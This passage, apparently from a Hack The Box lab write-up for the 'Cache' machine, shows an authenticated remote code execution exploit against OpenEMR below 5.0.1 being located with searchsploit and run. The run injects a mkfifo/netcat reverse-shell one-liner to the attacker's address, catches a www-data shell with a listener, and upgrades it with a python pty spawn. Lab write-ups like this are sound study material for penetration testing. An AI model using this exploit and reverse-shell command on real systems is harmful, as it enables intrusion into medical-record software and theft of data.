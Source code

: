 ## OpenEMR remote code execution

Checking searchsploit, I see a RCE exploit for our version.

```
OpenEMR < 5.0.1 - (Authenticated) Remote Code Execution
[...]
searchsploit -x 45161

# Title: OpenEMR < 5.0.1 - Remote Code Execution
# Author: Cody Zacharias
# Date: 2018-08-07
# Vendor Homepage: https://www.open-emr.org/
# Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
# Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
# Version: < 5.0.1 (Patch 4)
# Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
# References:
# https://www.youtube.com/watch?v=DJSQ8Pk_7hc
[...]
```

Launching exploit and getting that first shell:

```
snowscan@kali:~/htb/cache$ python exploit.py http://hms.htb/ -u openemr_admin -p xxxxxx -c 'rm /tmp/s;mkfifo /tmp/s;cat /tmp/s|/bin/sh -i 2>&1|nc 10.10.14.10 4444 >/tmp/s'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```

```
snowscan@kali:~/htb/cache$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.188] 34032
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cache:/var/www/hms.htb/public_html/interface/main$
```
